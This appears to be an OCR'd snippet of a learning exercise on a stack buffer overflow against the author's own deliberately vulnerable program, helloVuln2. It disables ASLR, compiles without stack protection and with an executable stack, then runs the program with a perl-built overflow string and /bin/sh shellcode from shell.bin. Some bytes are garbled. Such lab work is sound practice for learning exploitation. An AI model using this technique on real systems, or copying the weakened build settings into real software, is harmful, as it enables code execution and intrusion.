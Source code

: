 
  889  sudo apt install gcc-5
  932  sudo apt install -y gcc-multilib
 1007  sudo sysctl -w kernel.randomize_va_space=0
 1147  sudo sysctl kernel.randomize_va_space
 1148  sudo sysctl kernel.randomize_va_space=0
 1149  sudo sysctl kernel.randomize_va_space
 1151  sudo sysctl -w kernel.randomize_va_space=0


gcc -m32 -g -z execstack -fno-stack-protector -o helloVuln2 helloVuln2.c



```
                                   ~^     ~~~~~~~
➜  helloVuln2 git:(main) ✗ ./helloVuln2 $(perl -e 'print "A"x28 . "\xeo\xdd\xff\xff"')$(cat shell.bin)
Hint: Address of buffer: ffffcf40
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAo���1�Ph//shh/bin����°
                                                       ̀!
[1]    21385 segmentation fault (core dumped)  ./helloVuln2 $(perl -e 'print "A"x28 . "\xeo\xdd\xff\xff"')$(cat shell.bin)
➜  helloVuln2 git:(main) ✗ ./helloVuln2 $(perl -e 'print "A"x28 . "\x60\xcf\xff\xff"')$(cat shell.bin)
Hint: Address of buffer: ffffcf40
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAA`���1�Ph//shh/bin����°
```